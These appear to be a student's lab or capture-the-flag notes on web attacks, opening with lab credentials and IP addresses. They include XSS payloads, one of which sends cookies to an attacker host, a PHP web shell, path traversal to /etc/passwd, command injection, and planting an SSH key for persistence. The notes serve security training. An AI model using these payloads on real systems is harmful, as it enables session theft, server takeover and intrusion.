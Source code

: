 # Stack Info
```
--Stack Number
  5

--Username
CODA-503-M

--Password
Gx1LjlSgOgQJJMy

Boxes
Student - Password
--Linux ops
10.50.31.135
 
--Windows
10.50.24.133

--Jump
10.50.27.155

--Password
Gx1LjlSgOgQJJMy

--CTFd
http://10.50.20.30:8000/resources
```
# Day 1 - XSS
## Enumeration
```
    Robots.txt

    Legitimate surfing

    Tools:

        NSE scripts

        Nikto
```
## Reflected XSS
```
    Most common form of XSS

    Transient, occurs in error messages or search results

    Delivered through intermediate media, such as a link in an email

    Characters that are normally illegal in URLs can be Base64 encoded


Below is what you see, but the server will decode as name=abc123


http://example.com/page.php?name=dXNlcjEyMw
```
## Stored XSS
```
    Resides on vulnerable site

    Only requires user to visit page


<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
```
## Useful JavaScript Components
```
Proof of vulnerability to xss (simple alert):

<script>alert('XSS');</script>

    Capturing Cookies
    document.cookie

    Capturing Keystrokes

        bind keydown and keyup

    Capturing Sensitive Data
    document.body.innerHTML
```
## More Stored XSS 
```
On Box
python3 -m http.server

On Website
<script>document.location="http://x.x.x.x:8000/"+document.cookie;</script>
```
## Server-Side injection
```
Directory Traversal/Path Traversal


    Ability to read/execute outside web server’s directory

    Uses ../../ (relative paths) in manipulating a server-side file path


view_image.php?file=../../etc/passwd
```
## Malicious File Upload
in the near future there may be a time when you can upload a file but it will be uploaded somewhere seperate. ** MUST be able to upload AND call your file
```
<HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```
## Command Injection
```
Application on the server is vulnerable,
allowing execution of arbitrary commands

    User input not validated
        Common example is a SOHO router, with a web page to allow ping

Might contain the following in it’s code:
system("ping -c 1 ".$_GET["ip"]);


Run the following to chain/stack our arbitrary command
; cat /etc/passwd
```

## Upload publickey 
```
ssh keys stored in /etc/ssh
ssh-keygen -t rsa -b 4096
cat .ssh/id_rsa
cat .ssh/id_rsa.pub

; ls -lisa /var/www/
; mkdir /var/www/.ssh
; ls -lisa /var/www/.ssh
; echo "your_public_key_here" >> /var/www/.ssh/authorized_keys

ssh -i .ssh/id_rsa www-data@x.x.x.x
```
